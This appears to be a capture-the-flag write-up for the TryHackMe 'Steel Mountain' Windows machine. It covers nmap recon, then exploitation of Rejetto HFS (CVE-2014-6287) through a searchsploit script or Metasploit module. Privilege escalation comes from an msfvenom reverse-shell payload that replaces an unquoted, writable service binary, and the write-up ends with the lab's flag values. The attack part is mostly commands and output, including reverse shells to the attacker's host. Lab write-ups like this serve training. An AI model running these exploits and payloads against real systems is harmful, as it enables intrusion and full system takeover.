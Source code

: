 # Steel Mountain

IP = `10.10.0.238`

## Recon

```
# Nmap 7.94SVN scan initiated Wed Sep  4 21:55:56 2024 as: nmap --open -sC -sV -oN nmap/initial 10.10.0.238
Nmap scan report for 10.10.0.238
Host is up (0.49s latency).
Not shown: 926 closed tcp ports (reset), 64 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-09-04T16:28:04+00:00
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2024-09-03T16:25:39
|_Not valid after:  2025-03-05T16:25:39
|_ssl-date: 2024-09-04T16:28:12+00:00; -1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-09-04T16:28:04
|_  start_date: 2024-09-04T16:25:28
| smb2-security-mode:
|   3:0:2:
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:3f:71:b6:b0:99 (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 21:58:14 2024 -- 1 IP address (1 host up) scanned in 137.65 seconds

```



## Initial Foothold

```
searchsploit hfs 2.3
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)       | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)       | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasp | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload    | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution ( | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution ( | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Ex | windows/webapps/34852.txt
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```

`searchsploit -m windows/remote/49584.py`

vulnerability : `(CVE-2014-6287)`

change the remote and local ip and port
```
--SNIP--
lhost = "10.4.96.175"
lport = 9898
rhost = "10.10.0.238"
rport = 8080
--SNIP--
```

`python3 49584.py`

```
--SNIP--
connect to [10.4.96.175] from (UNKNOWN) [10.10.0.238] 49277

PS C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

```

**OR**

```
msf6> use exploit/windows/http/rejetto_hfs_exec

msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.4.96.175
LHOST => 10.4.96.175
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set TARGETURI /
TARGETURI => /
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.4.96.175:4444
[*] Using URL: http://10.4.96.175:8080/VNvGXkBMY3
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /VNvGXkBMY3
[*] Sending stage (176198 bytes) to 10.10.0.238
[!] Tried to delete %TEMP%\daMMcAGAE.vbs, unknown result
[*] Meterpreter session 1 opened (10.4.96.175:4444 -> 10.10.0.238:49312) at 2024-09-04 23:11:30 +0530
[*] Server stopped.

meterpreter >

```

Got User!

user flag found at `C:\Users\bill\Desktop`

**User Flag**
`b04763b6fcf51fcd7c13abc7db4fd365`

## Privilege Escaltion

`C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`

`AdvancedSystemCareService9`

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.4.96.175 LPORT=9898 -f exe -o priv9898.exe
`

upload priv9898.exe to target using upload utility of meterpreter.

`meterpreter> upload /home/fc/Documents/ctf/thm/machines/steel-mountain/priv9898.exe`

stop the service running (AdvancedSystemCareService9)

`sc stop AdvancedSystemCareService9` (shell)
or
`Stop-Service AdvancedSystemCareService9` (PS)

`Get-Service <Service-name>` (to get the status)

replace the original ASCService.exe with generated payload

`PS > copy priv9898.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"`

```
open multi/handler on metaspploit

use multi/handler
set LPORT 9898
set LHOST 10.14.96.17
run
```

start the service (AdvancedSystemCareService9)

`sc start AdvancedSystemCareService9`
or
`Start-Service AdvancedSystemCareService9`

meterpreter session with NT Authority spawned

but!

sessions terminated / declined / dead after a couple of seconds

so we need to migrate into a stable process 

two options
- manual
	search for a relevant process to migrate into.
	migrate <pid>
	migrate -N <process_name>
- metasploit module
	use post/windows/manage/migrate
	set SESSION <session-id>
	run

now we got a stable access with NT AUTHORITY privilege



**Root Flag**

`9af5f314f57607c00fd09803a587db80`